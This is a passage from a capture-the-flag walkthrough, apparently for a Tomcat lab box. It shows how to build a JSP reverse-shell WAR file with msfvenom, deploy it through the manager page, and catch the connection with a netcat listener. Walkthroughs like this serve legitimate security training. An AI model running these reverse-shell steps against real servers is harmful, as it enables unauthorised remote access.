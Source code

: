 We do not have to escalate privileges. It means, we can easily access all flags at this point. 

If you don't want to see the second method and you want to finish the challange feel free to skip to the [Get the flags](#get-the-flags) section.

### (2) MSFVenom + Netcat

Type:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={your tun0 ip} LPORT={port of your choice} -f war > {any name you want}.war
```

![shell](./Screenshots/jerryshell4.png)

Now, upload the **.war** file.

![shell](./Screenshots/jerryshell5.png)

and press **Deploy**.

Now, let's set up the **Netcat**.

```
nc -lvnp {port you have chosen}
```

![shell](./Screenshots/jerryshell6.png)

Path to your **.war** file should be there:

![shell](./Screenshots/jerryshell7.png)
